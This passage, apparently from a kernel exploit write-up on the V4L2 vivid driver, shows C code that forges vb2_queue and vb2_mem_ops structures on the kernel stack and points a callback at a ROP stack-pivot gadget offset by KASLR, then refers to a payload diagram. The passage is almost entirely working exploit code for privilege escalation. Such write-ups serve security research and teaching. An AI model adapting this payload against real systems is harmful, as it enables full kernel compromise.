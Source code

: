 ```c
vbuf->vb.vb2_buf.vb2_queue = (struct vb2_queue *)(kstack - TIMEX_STACK_OFFSET);
vq = (struct vb2_queue *)timex_addr;
printf("   vb2_queue of size %lu will be at %p, userspace %p\n",
	sizeof(struct vb2_queue),
	vbuf->vb.vb2_buf.vb2_queue,
	vq);

/* just to survive vivid list operations */
vbuf->list.next = (struct list_head *)(kstack - TIMEX_STACK_OFFSET + LIST_OFFSET);
vbuf->list.prev = (struct list_head *)(kstack - TIMEX_STACK_OFFSET + LIST_OFFSET);

/*
 * point to future position of vb2_mem_ops in timex payload on kernel stack;
 * mem_ops offset is 0x38, be careful with OPS_OFFSET
 */
vq->mem_ops = (struct vb2_mem_ops *)(kstack - TIMEX_STACK_OFFSET + OPS_OFFSET);
printf("   mem_ops ptr will be at %p, userspace %p, value %p\n",
	&(vbuf->vb.vb2_buf.vb2_queue->mem_ops),
	&(vq->mem_ops),
	vq->mem_ops);

memops = (struct vb2_mem_ops *)(timex_addr + OPS_OFFSET);

/* vaddr offset is 0x58, be careful with ROP_CHAIN_OFFSET */
memops->vaddr = (void *)ROP__PUSH_RDI__POP_RSP__pop_rbp__or_eax_edx__RET + kaslr_offset;
printf("   mem_ops struct of size %lu will be at %p, userspace %p, vaddr %p at %p\n",
	sizeof(struct vb2_mem_ops),
	vq->mem_ops,
	memops,
	memops->vaddr,
	&(memops->vaddr));
```


And the following diagram describes how the adapted payload parts are interconnected in the kernel memory:
![payload anatomy](/img/v4l2_payload.png)
